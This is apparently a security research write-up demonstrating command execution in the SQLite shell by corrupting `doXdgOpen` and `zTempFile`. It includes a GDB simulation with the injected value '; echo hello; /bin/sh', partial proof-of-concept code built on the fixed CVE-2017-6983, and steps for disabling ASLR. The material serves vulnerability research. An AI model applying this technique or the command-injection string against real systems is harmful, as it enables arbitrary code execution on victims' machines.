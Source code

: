 # Corrupting `doXdgOpen` to Attack SQLite

We try two methods to corrupt `doXdgOpen` to build attacks against SQLite, one via GDB simulation and another via a real-world vulnerablitiy. The vulnerability has been fixed so it will not cause immediate threat to exsiting SQLite installations.

With these corruptions attackers can execute arbitrary command on victim systems.

## Attack Simulation via GDB

To quickly confirm the feasiblity of building attacks, we use the GDB debugger to simulate an attacker who can write arbitrary value into arbitrary location through common memory safety issues, like buffer overflow or use-after-free.

In particular, we set `doXdgOpen` to `true` and set `zTempFile` to a malicious string `; echo 'hello'; /bin/sh`. When the execution continues, `echo 'hello'` and `/bin/sh` will be executed.

In the first step, we start an SQLite shell.

```bash
$ sqlite3
sqlite>
```

In another terminal, we attach GDB to the SQLite shell process

```bash
$ sudo gdb -p `pgrep sqlite3`  # make sure only one sqlite3 exists
```

Go to the `main` function frame, and update the two members of `ShellState`:

```bash
(gdb) bt                  # Print backtrace of all stack frames. Content may vary
#0  0x00007f3b44e5807b in __pselect (nfds=1, readfds=0x7ffd187094f0, writefds=0x0, exceptfds=0x0, timeout=<optimized out>, sigmask=0x7f3b45173c20 <_rl_orig_sigset>)
	at ../sysdeps/unix/sysv/linux/pselect.c:48
#1  0x00007f3b45153be9 in rl_getc () from /lib/x86_64-linux-gnu/libreadline.so.8
#2  0x00007f3b45154503 in rl_read_key () from /lib/x86_64-linux-gnu/libreadline.so.8
#3  0x00007f3b45139c82 in readline_internal_char () from /lib/x86_64-linux-gnu/libreadline.so.8
#4  0x00007f3b4513a4ed in readline () from /lib/x86_64-linux-gnu/libreadline.so.8
#5  0x0000000000431b88 in one_input_line (in=0x0, zPrior=0x0, isContinuation=0) at shell.c:656
#6  0x00000000004155b2 in process_input (p=0x7ffd187097c8) at shell.c:18343
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
(gdb) frame 7             # select the frame of main, which is #7 here
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
19152         rc = process_input(&data);
(gdb) p data.doXdgOpen    # show doXdgOpen before corruption
$1 = 0 '\000'
(gdb) p data.zTempFile    # show zTempFile before corruption
$2 = 0x0
(gdb) set data.doXdgOpen = 1                            # corrupt doXdgOpen
(gdb) set data.zTempFile = "; echo hello; /bin/sh"      # corrupt zTempFile
(gdb) p data.doXdgOpen    # show doXdgOpen after corruption
$3 = 1 '\001'
(gdb) p data.zTempFile    # show zTempFile after corruption
$4 = 0x7f3b44d42990 "; echo hello; /bin/sh"
```

Attack done. Now we can quit GDB.

```bash
(gdb) quit
Quit anyway? (y or n) y
```

Go to the SQLite shell, quit the shell

```bash
sqlite> .exit
sh: 1: xdg-open: not found   #<- reuslt of running "xdg-open "
hello                        #<- result of running "echo 'hello'"
$                            #<- result of runing "/bin/sh"
```

As we can see from the SQLite shell, SQLite executes command `system("xdg-open ; echo 'hello'; /bin/sh")`, which finally creates a terminal for attackers.

## Attack via Real-world (Fixed) Bugs

Attackers can use any memory-safety issues to corrupt `doXdgOpen` and `zTempFile` to achieve arbitrary code execution. These bugs are not rare.

#### 1. Gain arbitrary memory-write primitive

We utilize the following, old vulnerability to construct an attack. More details about this bug is also available via this link.

* [CVE-2017-6983](cve-2017-6983.md) 

#### 2. Compile SQLite

```bash
# in sqlite folder

CC="clang -DSQLITE_DEBUG" ./configure --enable-debug
make
```

#### 3. Proof-of-Concept (PoC)

We exploit the vulnerability twice to corrupt `p->doXdgOpen` and `p->zTempFile` respectively. We disabled ASLR in this attack, so the address of `p` and faked structures are fixed. Bypassing ASLR is also feasible as demonstrated in page 60 of the slide. The complete PoC can be found in [doXdgOpen-poc.py](./doXdgOpen-poc.py).

```bash
# Corrupt p->doXdgOpen to 1

# set zMalloc (dest of memcpy) in sqlite3_value
exp = writeVal(exp, sqlite3_value_off + 0x40, doXdgOpen, 8)

# add a src string to test
exp = writeVal(exp, src_off, 0x1, 1)
```

```bash
# Corrupt p->zTempFile to ";touch hello"

# set zMalloc (dest of memcpy) in sqlite3_value
exp_2 = writeVal(exp_2, sqlite3_value_off + 0x40, zTempFile, 8)

# add a src string ptr to test
exp_2 = writeVal(exp_2, src_off, src_base_2 + 0x8, 8)

# add a src string ";touch hello"
exp_2 = writeVal(exp_2, src_off + 0x8, 0x6f6c6c6568206863756f743b, 13)
```

```bash
# clean up sqlite cache
$ rm -rf ~/.sqlite*

# We need to figure out the correct base address and shellstate address

# generate the exploit poc
$ ./poc.py

# exploit within gdb
$ gdb ./sqlite3
(gdb) b output_reset
(gdb) r < /tmp/exp

# command `touch hello` will be executed and
# we can find file "hello" in current folder.
```

## Tips

### Disable ASLR
```
cat /proc/sys/kernel/randomize_va_space
sudo sysctl kernel.randomize_va_space=0 
```

### Get size of a variable/type
```
print sizeof(val)
print sizeof(Type)
```

### Get offside of a member
```
gdb-peda$ p/x &(((Fts3Table *)0)->db)
```

### Clear cache
`rm ~/.sqlite*`

